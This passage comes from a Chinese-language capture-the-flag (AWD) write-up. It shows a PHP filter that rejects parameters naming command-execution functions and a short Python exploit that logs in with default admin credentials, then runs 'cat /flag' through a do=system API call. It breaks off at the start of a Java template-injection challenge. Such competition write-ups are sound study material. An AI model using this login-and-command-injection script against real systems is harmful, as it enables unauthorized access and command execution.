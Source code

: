 加个过滤

```php
function getdo($field = 'do', $default = false)
{
    if (!isset($_GET['do'])) return $default;

    if (preg_match('/(system|exec|shell_exec|passthru|eval|assert)/i', $_GET['do'])) {
        die('hacker');
    }
    return $_GET['do'];
}
function getcid($field = 'cid', $default = false)
{
    if (!isset($_POST['cid'])) return $default;

    if (preg_match('/(system|exec|shell_exec|passthru|eval|assert)/i', $_POST['cid'])) {
        die('hacker');
    }
    return $_POST['cid'];
}
```

exp

```python
def attack(target):

    try:
        print('attack', target)
        s = requests.Session()
        s.post(target + '/login.php?action=login', data={
            'account': 'admin',
            'password': 'admin'
        })
        res = s.post(target + '/admin/api.php?do=system', data={
            'cid': 'cat /flag'
        }, timeout=3)
        result = re.findall('flag{.*?}', res.text)
        if result:
            flag = result[0]
            print('find flag',flag)
            flags.put(flag)
    except Exception:
        pass
```

至于其它地方有没有洞我也不清楚我也懒得看了, AWD 气氛太紧张了 php 不怎么能看得下去 (

### easyjava

这道题比较有意思, 开局手速快抢了一堆 flag, 然后题目修好之后再也没有被打过, 最后光是这道题就拿了 2.4w 多分

首先有 thymeleaf ssti
